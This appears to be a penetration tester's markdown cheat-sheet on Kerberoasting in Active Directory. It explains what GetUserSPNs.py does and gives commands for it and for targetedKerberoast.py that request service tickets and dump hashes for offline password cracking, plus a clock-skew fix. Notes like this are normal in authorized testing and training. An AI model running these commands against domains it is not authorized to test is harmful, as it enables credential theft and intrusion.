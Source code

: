 ## GetUserSPNs.py
GetUserSPNs.py queries DC for Active Directory user accounts that have Service Principal Names (SPNs) set.
These accounts often have Kerberos service tickets (TGS) that you can request and potentially crack offline to recover their plaintext password.
This is the basis of a Kerberoasting attack.

Specifically, the script:
- Authenticates to the DC using provided credentials.
- Queries LDAP for all user accounts with SPNs (servicePrincipalName attribute).
- Requests TGS tickets for those SPNs.
- Dumps the tickets in a hash format (Kerberos 5 TGS-REP hashes) suitable for offline cracking (e.g., with hashcat or john).
```
# Add domain to /etc/hosts so it resolves
GetUserSPNs.py <domain>/<user>:<password> -request -save
```

## TargetedKerberos.py
Useful for abusing certain Bloodhound edges.

https://github.com/ShutdownRepo/targetedKerberoast.git
```
targetedKerberoast.py -v -d '<domain>' -u '<Owned USer>' -p '<password>'
```
In case of below error
```
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
Simply do
```
sudo ntpdate <Domain controller>
```
